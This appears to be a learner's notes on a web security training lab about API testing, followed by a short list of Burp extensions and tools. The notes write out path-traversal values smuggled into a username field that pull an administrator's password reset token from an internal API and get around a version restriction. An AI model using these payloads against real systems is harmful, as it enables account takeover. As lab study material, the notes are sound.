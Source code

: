 ```json
            "name": "username",
            "in": "path",
            "description": "Username",
            "required": true,
            "schema": {
        ..."
}
```
"/api/internal/v1/users/{username}/field/{field}" sounds very interesting
Let's see if we can get the same info this way

| csrf=u2xRho6ZPBvjZDTwmefDjO4x4qapzOEn&<br>username=administrator                                                   | {"type":"email",<br>"result":"*****@normal-user.net"} |
| ------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------- |
| csrf=u2xRho6ZPBvjZDTwmefDjO4x4qapzOEn&<br>username=/../../../../api/internal/v1/users/administrator/field/email%23 | {"type":"email",<br>"result":"*****@normal-user.net"} |

In the .js code we see a reference to:
```js
window.location.href = `/forgot-password?passwordResetToken=${resetToken}`; 
```

| csrf=u2xRho6ZPBvjZDTwmefDjO4x4qapzOEn&<br>username=/../../../../api/internal/v1/users/<br>administrator/field/passwordResetToken%23 | {<br>  "type": "passwordResetToken",<br>  "result": "px8cxuq1t40170j7er598xzm3qu8kllb"<br>} |
| ----------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------- |
We send this link in the browser
https://0a5a003a044cf8188345ce8b004f001f.web-security-academy.net/forgot-password?passwordResetToken=px8cxuq1t40170j7er598xzm3qu8kllb

When testing we also found that we bypassed a security feature by mistake, using the long path:

| csrf=QyFI9GXlohsPAMbBZVaAmSZ9qJLoLrKX&<br>username=administrator/field/passwordResetToken%23                     | {<br>  "type": "error",<br>  "result": "This version of API only supports the email field for security reasons"<br>} |
| ---------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| csrf=QyFI9GXlohsPAMbBZVaAmSZ9qJLoLrKX&<br>username=/../../v1/users/administrator/field/<br>passwordResetToken%23 | {<br>  "type": "passwordResetToken",<br>  "result": "uaulb168ydgltefscr8b42dyhc9uretm"<br>}                          |
This was the minimal depth to get the passwordResetToken



### Useful extensions

##### OpenAPI Parser
For APIs in JSON or YAML format
##### Content-Type Converter
Converts XML, JSON, GET Request Parameters and Body Parameters to JSON or XML...
##### Param Miner
Identifies hidden, unlinked parameters.
Useful for finding web cache poisoning vulnerabilities.
![[Images/Pasted image 20250603213306.png]]
### Useful tools

##### Postman
https://www.postman.com/

##### SoapUI
https://www.soapui.org/

##### LinkFinder
Finds API links in js code (didn't work well in out test)
https://github.com/GerbenJavado/LinkFinder


